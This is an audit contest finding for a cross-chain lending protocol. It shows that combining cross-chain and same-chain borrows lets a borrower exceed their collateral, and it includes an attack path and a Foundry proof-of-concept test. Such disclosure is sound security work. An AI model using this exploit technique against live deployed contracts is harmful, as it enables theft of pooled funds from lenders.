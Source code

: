 Nice Sable Cobra

High

# An Attacker Can Exploit Cross Chain borrow to take more borrower than collateral

### Summary

The current implementation allow the borrower to take borrow on same chain and/or cross chain, However this current design can be exploited by borrowing on different chains to take more loan than collateral. As we only check the borrowed amount on target chain and collateral on src chain. There is no way to validate that the borrower has no active borrow on same chain or other chain 


### Root Cause

while Performing cross chain borrow on src chain we fetch the collateral and than validate it on target chain with the borrowed amount :
```solidity
/2025-05-lend-audit-contest/Lend-V2/src/LayerZero/CrossChainRouter.sol:113
113:     function borrowCrossChain(uint256 _amount, address _borrowToken, uint32 _destEid) external payable {
....
136:         // Get current collateral amount for the LayerZero message
137:         // This will be used on dest chain to check if sufficient
138:         (, uint256 collateral) =
139:             lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(_lToken), 0, 0);
140: 
141:         // Send message to destination chain with verified sender
142:         // borrowIndex of 0 initially - will be set correctly on dest chain
143:         _send(
144:             _destEid,
145:             _amount,
146:             0, // Initial borrowIndex, will be set on dest chain
147:             collateral,
148:             msg.sender,
149:             destLToken,
150:             address(0), // liquidator
151:             _borrowToken,
152:             ContractType.BorrowCrossChain
153:         );
154:     }
```
`147` collateral than got validated on targetChain :
On the Target chain : 
```solidity
/2025-05-lend-audit-contest/Lend-V2/src/LayerZero/CrossChainRouter.sol:581
581:     function _handleBorrowCrossChainRequest(LZPayload memory payload, uint32 srcEid) private {
582:         // Accrue interest on borrowed token on destination chain
.... 
616:         // Get existing borrow amount
617:         (uint256 totalBorrowed,) = lendStorage.getHypotheticalAccountLiquidityCollateral(
618:             payload.sender, LToken(payable(payload.destlToken)), 0, payload.amount
619:         );
620: 
621:         // Verify the collateral from source chain is sufficient for total borrowed amount
622:         require(payload.collateral >= totalBorrowed, "Insufficient collateral");
```
Here we check on target chain where borrower will received borrow amount that the collateral on other chain is sufficient to cover the borrow amount.
[CrossChainRouter.sol#L138-L139](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CrossChainRouter.sol#L138-L139)
[CrossChainRouter.sol#L622](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CrossChainRouter.sol#L622)

In case of same Chain borrow we only check the use has any borrow on same chain:
```solidity
/home/aman/Desktop/audits/2025-05-lend-audit-contest/Lend-V2/src/LayerZero/CoreRouter.sol:147
147:     function borrow(uint256 _amount, address _token) external {
....
154:         (uint256 borrowed, uint256 collateral) =
155:             lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(payable(_lToken)), 0, _amount);
156: 
157:         LendStorage.BorrowMarketState memory currentBorrow = lendStorage.getBorrowBalance(msg.sender, _lToken);
158: 
159:         uint256 borrowAmount = currentBorrow.borrowIndex != 0
160:             ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
161:             : 0;
162: 
163:         require(collateral >= borrowAmount, "Insufficient collateral");
```
here the `currentBorrow::borrowIndex` will be zero as the user has cross chain borrow.
[CoreRouter.sol#L155-L161](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L155-L161)


### Internal Pre-conditions

User has Cross chain Borrow


### External Pre-conditions

Nil

### Attack Path

1. Attacker supplies token A as collateral on Chain A
2. Attacker initiates cross-chain borrow from Chain B using maximum allowed amount
3. Protocol records the borrow position on Chain B
4. Attacker cannot borrow more on Chain B due to insufficient collateral coverage
5. Attacker initiates another borrow on Chain A where their collateral is located
6. Since in borrow function we do not check cross chain borrow.
7. Attacker successfully borrows more than their collateral should allow


### Impact

By combining same chain and cross chain borrow the attacker can take more loan than its collateral. The attack can also work with different cross chain borrow


### PoC

Add the following Test case to `TestLiquidations.t.sol` and run with command `forge --mt test_cross_chain_borrow_with_two -vvv`:
```solidity
    function test_cross_chain_borrow_with_two()
        public
    {
        uint256 supplyAmount = 100e18;
        uint256 borrowAmount=55e18;
        supplyAmount =  1000e18;
        borrowAmount = supplyAmount * 65 / 100;

        // Supply collateral on Chain A
        (address tokenA, address lTokenA) = _supplyA(deployer, supplyAmount, 0);

         _supplyA(liquidator, supplyAmount, 0);
        // Supply liquidity on Chain B for borrowing
        (address tokenB, address lTokenB) = _supplyB(liquidator, supplyAmount * 2, 0);

        vm.deal(address(routerA), 1 ether); // For LayerZero fees

        // Borrow cross-chain from Chain A to Chain B
        vm.startPrank(deployer);
        routerA.borrowCrossChain(borrowAmount/2, tokenA, CHAIN_B_ID);
        // vm.roll(100);
        routerA.borrowCrossChain(borrowAmount/2, tokenA, CHAIN_B_ID);
        console2.log("Cross chain borrow will revert as we have alrready borrowed the allowed amount");
        vm.expectRevert();
        routerA.borrowCrossChain(borrowAmount/2, tokenA, CHAIN_B_ID);
        console2.log("But the borrower can still perform same chain borrow and in this way borrower can borrow more than allowed amount");
        coreRouterA.borrow(borrowAmount*2, tokenA);
        vm.stopPrank();
    }
```


### Mitigation

Inside borrow function also check if user has any crossChain borrow
